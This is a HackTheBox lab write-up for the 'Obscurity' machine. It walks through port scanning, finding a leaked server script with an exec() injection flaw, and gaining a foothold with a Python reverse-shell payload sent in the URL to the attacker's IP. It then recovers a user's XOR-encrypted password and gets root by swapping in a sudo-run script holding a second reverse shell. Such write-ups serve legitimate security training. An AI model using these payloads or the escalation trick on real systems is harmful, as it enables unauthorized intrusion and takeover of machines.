

# HackTheBox | Obscurity



## Box Summary

This box is a medium Linux box created by clubby789. We begin by finding a webserver running on port 8080 and we find a clue about SuperSecretServer.py. We fuzz to find the file and upon looking at sroucecode we discover a vulnerability that allows us to execute code via the url. Once we get a shell on the box as www-data we are able to look at some files in robert's home directory that allow us to steal his password. We escalate from robert to root with a sudo command that he can run on the box.

## Enumeration

We run nmap on the box and find two open ports: 22/tcp, 8080/tcp

```
nmap -sV -sC -oA nmap/obscurity 10.10.10.168
```

```
# Nmap 7.80 scan initiated Thu May  7 00:07:20 2020 as: nmap -sV -sC -oA obscurity 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.14s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 07 May 2020 05:08:07
|     Server: BadHTTPServer
|     Last-Modified: Thu, 07 May 2020 05:08:07
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=5/7%Time=5EB39798%P=x86_64-pc-linux-gnu%r(Get
SF:Request,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Thu,\x2007\x20May\x20202
SF:0\x2005:08:07\nServer:\x20BadHTTPServer\nLast-Modified:\x20Thu,\x2007\x
SF:20May\x202020\x2005:08:07\nContent-Length:\x204171\nContent-Type:\x20te
SF:xt/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"e
SF:n\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\n
SF:\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20nam
SF:e=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templa
SF:te\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20sty
SF:lesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boot
SF:strap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-aw
SF:esome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templat
SF:emo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target=
SF:\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<d
SF:iv\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner-
SF:wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20T
SF:hu,\x2007\x20May\x202020\x2005:08:07\nServer:\x20BadHTTPServer\nLast-Mo
SF:dified:\x20Thu,\x2007\x20May\x202020\x2005:08:07\nContent-Length:\x2041
SF:71\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20h
SF:tml>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<
SF:title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20con
SF:tent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=devi
SF:ce-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conten
SF:t=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nEa
SF:sy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-prof
SF:ile\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"styleshe
SF:et\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\
SF:"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\
SF:"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"s
SF:croll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20s
SF:ection\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"sk
SF:-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  7 00:07:49 2020 -- 1 IP address (1 host up) scanned in 28.94 seconds
```

We take a look at the service running on port 8080 in our browser by navigating to http://10.10.10.168:8080 and we see the main webpage. 


In the **Development** section we see that there is information about the source code for the web server at ```SuperSecureServer.py```.


We use ffuf to fuz the directory holding the source code on port 8080. Ffuf is a fuzzer written in go. It is available on [GitHub](https://github.com/ffuf/ffuf). 

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt \
     -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```


We see a response that there is a 200 HTTP Response code on ```/develop/SuperSecureServer.py```. We take a look at this in the browser to find the source code of the webserver. 

```python
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

{body}
"""
DOC_ROOT = "DocRoot"

CODES = {"200": "OK", 
        "304": "NOT MODIFIED",
        "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND", 
        "500": "INTERNAL SERVER ERROR"}

MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg", 
        "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2", 
        "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}


class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
    def stringResponse(self):
        return respTemplate.format(**self.__dict__)

class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

    def parseRequest(self, request):        
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}


class Server:
    def __init__(self, host, port):    
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))

    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target = self.listenToClient,args = (client,address)).start()

    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    # Set the response to echo back the recieved data 
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False
    
    def handleRequest(self, request, conn, address):
        if request.good:
#            try:
                # print(str(request.method) + " " + str(request.doc), end=' ')
                # print("from {0}".format(address[0]))
#            except Exception as e:
#                print(e)
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum=document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum="400"
        body = document["body"]
        
        statusCode=CODES[statusNum]
        dateSent = ""
        server = "BadHTTPServer"
        modified = ""
        length = len(body)
        contentType = document["mime"] # Try and identify MIME type from string
        connectionType = "Closed"


        resp = Response(
        statusNum=statusNum, statusCode=statusCode, 
        dateSent = dateSent, server = server, 
        modified = modified, length = length, 
        contentType = contentType, connectionType = connectionType, 
        body = body
        )

        data = resp.stringResponse()
        if not data:
            return -1
        conn.send(data.encode())
        return 0

    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

When we inspect the code, we find a comment regarding the handling of strings. It passes an argument that we control directly to ```exec()``` which will allow us to execute code.

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Since ```exec()``` executes python code passed to it, we have control over the path passed to the function.

We find that we can complete the ```output = 'Document: {}'``` string and pass in code by passing a single quote and a semicolon to create a valid python statement that is passed to exec. We have to end the expression with an extra semicolon in order for the expression to execute sucessfully since it is still appending the final single quote. Our path becomes:

```python
';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);;'
```

We pass this to the URL and we get a connect back to our box. We are now on the box as ```www-data```.


## Pivot To Robert

Looking at ```/home``` we see that we are able to traverse ```/home/robert/``` as ```www-data```. After copying the files back to our local machine, we can take a look at the files. 

We notice that the encryption and decryption methods are exactly the same. This means that since it is simple XOR we can just change the paramters going into the function, using the encypted output as input to the function, ```check.txt``` as the key, and save the output as the key. 


We can see that they key is ```alexandrovich``` and can use this as the key to decrypt ```passwordreminder.txt```.


We get the robert's password ```SecThruObsFTW```

We can ssh in with this password.


## Privilege Escalation

Now that we are robert, we look for ways to escalate to root.

With ```sudo -l ``` we see that robert can run ```sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py```.


We have control over the ``BetterSSH/`` directory because we own the parent directory. We simply can rename ```BetterSSH/``` and recreate the python script that we can run as root with the following commands:

```bash
mv BetterSSH BetterSSH2
mkdir BetterSSH
touch BetterSSH/BetterSSH.py
```

We add code for our reverse shell in ```BetterSSH.py```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

We set up our netcat listener on our local machine with ```nc -lvnp 1337```

We run the script with sudo

```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```


Owned!


